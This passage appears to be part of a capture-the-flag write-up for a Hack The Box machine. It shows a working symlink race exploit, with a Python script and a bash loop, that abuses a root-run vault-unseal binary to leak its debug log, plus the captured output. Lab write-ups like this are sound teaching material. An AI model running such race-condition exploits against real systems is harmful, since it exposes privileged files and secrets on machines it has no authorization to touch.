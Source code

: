 The program creates/overwrites `debug.log`, but we can't read it because root creates it. 

### Race Condition

Since the file is created no matter what and accessed to write contents we can use race condition to get the desired output, specifically Symlink Race! 
Symlink Race - Blog post: [https://hackmd.io/@bachtam2001/BkZkudoLq#Example](https://hackmd.io/@bachtam2001/BkZkudoLq#Example)

`race.py`:
```python
import time
import os

target = 'debug.log' 
leak = 'test.log' 
sleep = 1 / 1000

try:
    os.unlink(target)
    os.symlink("/dev/null", target)
    time.sleep(sleep)
    os.unlink(target)
    os.symlink(leak, target)
    time.sleep(sleep)
except Exception as e:
    print(f'Error: {e}')
```

`race.sh`:
```bash
#!/bin/bash
CHECK_FILE="ls -l test.log"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
   sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd &
   python3 race.py &
   wait
   new=$($CHECK_FILE)
done
echo "Stop..."
```

1. Create `race.py`
2. Create `race.sh`
3. Create `target` file (e.g.: `test.log`)
4. Run `race.sh`

After running it for few minutes we get a hit!

```bash
...
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
Stop...
askyy@skyfall:/tmp/tmp.MpRK4Ina2Y$ ls -l
```